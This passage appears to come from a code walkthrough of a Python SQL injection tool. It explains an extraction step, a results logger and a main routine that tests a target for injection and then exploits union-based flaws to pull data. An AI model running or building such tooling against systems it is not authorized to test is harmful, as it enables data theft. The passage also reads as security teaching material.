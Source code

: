 ```python
                    response = requests.post(url, data=data, timeout=10, proxies=proxies)

                print(f"\n[+] Payload: {payload}")
                print(f"Response:\n{response.text[:500]}...\n")
            except requests.RequestException as e:
                print(f"[-] Request failed: {e}")
```
- **Purpose**: Exploits union-based vulnerabilities to extract data.
- **Highlighted Lines**:
  - `response.text[:500]`: Displays partial responses for brevity.
  - `if "union_based" in vulnerable_types`: Ensures exploitation only proceeds if the vulnerability exists.

---

### **log_result() Function**
```python
def log_result(payload, response_excerpt):
    with open("sql_injection_results.txt", "a") as log_file:
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        log_file.write(f"Timestamp: {timestamp}\n")
        log_file.write(f"Payload: {payload}\n")
        log_file.write(f"Response: {response_excerpt[:200]}...\n")
        log_file.write(f"{'-' * 50}\n")
```
- **Purpose**: Logs successful payloads and responses to a file.
- **Highlighted Lines**:
    - `timestamp = datetime.now().strftime(...)`: Captures the current date and time in a readable format (e.g., 2025-01-22 14:30:00).
    - `response_excerpt[:200]`: Limits the logged response to the first 200 characters to avoid bloating the log file.
    - `log_file.write(...)`: Writes the timestamp, payload, and response excerpt into a text file, appending to the file if it already exists.


### **Main Script**
```python
if __name__ == "__main__":
    url, param, method, proxy = parse_input()
    payloads = get_payloads()
    
    proxies = {"http": proxy, "https": proxy} if proxy else None
    vulnerable_types = test_injection(url, param, method, payloads, proxies)
    
    if vulnerable_types:
        print(f"\n[+] Vulnerabilities detected: {', '.join(vulnerable_types)}")
        extract_data(url, param, method, vulnerable_types, proxies)
    else:
        print("[-] No vulnerabilities detected.")
```

- **Purpose**: Serves as the entry point for the script.
- **Highlighted Lines**:
    - `url, param, method, proxy` = parse_input(): Parses command-line arguments.
    - `payloads = get_payloads()`: Fetches the predefined SQL injection payloads.
    - `proxies = {"http": proxy, "https": proxy} if proxy else None`: Configures proxy settings if provided.
    - `test_injection(...)`: Tests for vulnerabilities using the defined payloads.
    - `extract_data(...)`: Attempts to exploit detected vulnerabilities if any are found.
    - `print(...)`: Provides user feedback about the results.

